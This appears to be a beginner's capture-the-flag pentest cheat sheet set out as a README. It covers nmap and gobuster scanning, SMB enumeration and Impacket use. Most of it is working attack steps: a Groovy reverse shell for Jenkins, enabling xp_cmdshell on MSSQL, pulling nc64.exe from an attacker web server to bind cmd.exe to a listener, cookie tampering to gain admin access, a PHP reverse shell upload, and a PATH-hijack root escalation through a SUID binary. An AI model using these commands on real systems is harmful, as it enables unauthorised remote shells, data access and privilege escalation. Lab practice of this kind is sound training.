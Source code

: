 #Beginner Pentest Workbook
##Capture the Flag (most common steps, getting started)

#NMAP

nmap -sC -sV {TARGET}
nmap -sC -Pn {TARGET} -- no host discovery


#GOBUSTER

gobuster dir --url {TARGET} --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

#Jenkins

##Groovy Reverse Shell

String host="10.10.15.80";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(), so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); 


#Netcat cmd to listen to the port

nc -lvnp 8000

#SMB - Server machine block

smbclient -L {TARGET} -U Administrator
List the directories

smbclient \\\\{TARGET}\\{DIR} -U Administrator

Access the dir.

smbclient -N -L \\\\{TARGET_IP}\\
-N : No password
-L : This option allows you to look at what services are available on a server


#Impacket

##mssqlclient.py

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

prompt the password we discovered

C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline>console history


python3 psexec.py administrator@{TARGET}
connect to admin account > password needed

###Useful links

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

##Commands to allow xp_cmdshell on Windows server

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

SQL> xp_cmdshell "whoami"

###Run this on your attacker machine

http.server to upload the netcat executable:
sudo python3 -m http.server 80

netcat on another tty to listen
sudo nc -lvnp 443

###Useful link
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads"

xp_cmdshell "powershell -c pwd"

wget to get on your attacker VM the nc64 executable
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{YOUR_IP}/nc64.exe -outfile nc64.exe"

Now, we can bind the cmd.exe through the nc to our listener:
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {YOUR_IP} 443"


#winPEAS

###Useful link

https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe

On your attacker machine:
python3 -m http.server 80

On the target machine 

powershell
wget http://{YOUR_IP}/winPEASx64.exe -outfile winPEASx64.exe


#Information Disclosure -- Cookies

Example:

http://{TARGET}/cdn-cgi/login/admin.php?content=accounts&id= {CHANGE ID to test for some Info gathering}

Change cookie, example:

role => admin
id => 34322

So we get the access to upload folder

nc -lvnp {PORT} -- port we set on the reverse shell

http://{target}/uploads/php-reverseshell.php

Functional shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

###Common paths

You need to be used to Linux so try to find more privileged users who you can exploit and escalate privileges.
Example we find user jason, so we try to find a way to get into it

su jason > it will prompt you to type the password,
cat * | grep -i passw*
try to find anything useful as passwd or passwords, no case sensitive -i flag on grep will get Password or anything like this.

id
uid=1000(jason) gid=1000(jason) groups=1000(jason),1001(bugtracker)

find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

this file has a SUID > root

SUID 

SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.

####Let's try to exploit it

bugtracker 
> prompts you to type bug ID
try anything,
it will get you the error:

cat: /root/reports/12: No such file or directory

So, it is using the command cat to fetch files

This is exploitable

cd /tmp
echo "/bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH

NB: put /tmp before $PATH so the shell will search for cat on our directory first

now execute bugtracker and type: anything on the prompt

you will get inside the /bin/sh as root.
